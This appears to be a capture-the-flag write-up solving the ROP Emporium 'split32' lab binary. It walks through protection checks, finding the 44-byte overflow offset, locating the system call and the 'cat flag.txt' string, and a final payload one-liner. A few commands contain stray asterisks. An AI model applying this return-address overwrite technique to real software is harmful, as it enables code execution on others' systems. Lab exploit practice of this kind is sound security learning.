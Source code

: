 # Basic Test:

## Check call system into binary file
```bash
strace ./split32
```

## Check protection into binary file
```bash
checksec ./split32
```

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

<br>

# Exploitation:

## Clear the kernel ring buffer
```bash
sudo dmesg -C
```

## Find offset for overwrite RIP
```bash
python2 -c 'print "A"*44 + "B"*4*' | ./split32
```

## See output
```bash
sudo dmesg -T
```

	[dim. avril  9 00:32:30 2023] split32[125597]: segfault at 42424242 ip 0000000042424242 sp 00000000ff8b9de0 error 14 in libc.so.6[f7c00000+22000] likely on CPU 0 (core 0, socket 0)

## Find the address of the paramater
```bash
rabin2 -z ./split32
```

	nth paddr      vaddr      len size section type  string
	―――――――――――――――――――――――――――――――――――――――――――――――――――――――
	0   0x000006b0 0x080486b0 21  22   .rodata ascii split by ROP Emporium
	1   0x000006c6 0x080486c6 4   5    .rodata ascii x86\n
	2   0x000006cb 0x080486cb 8   9    .rodata ascii \nExiting
	3   0x000006d4 0x080486d4 43  44   .rodata ascii Contriving a reason to ask user for data...
	4   0x00000703 0x08048703 10  11   .rodata ascii Thank you!
	5   0x0000070e 0x0804870e 7   8    .rodata ascii /bin/ls
	0   0x00001030 0x0804a030 17  18   .data   ascii /bin/cat flag.txt

## Find the address of the call system
```bash
pwngdb> disass*usefulFunction
```

	   0x0804860c <+0>:     push   ebp
	   0x0804860d <+1>:     mov    ebp,esp
	   0x0804860f <+3>:     sub    esp,0x8
	   0x08048612 <+6>:     sub    esp,0xc
	   0x08048615 <+9>:     push   0x804870e
	   0x0804861a <+14>:    call   0x80483e0 <system@plt>
	   0x0804861f <+19>:    add    esp,0x10
	   0x08048622 <+22>:    nop
	   0x08048623 <+23>:    leave
	   0x08048624 <+24>:    ret

## Payload final CLI

```bash
python2 -c 'print "A"*44 + "\x1a\x86\x04\x08" + "\x30\xa0\x04\x08"' | ./split32 # call system = 0x0804861a + /bin/cat flag.txt = 0x0804a030
```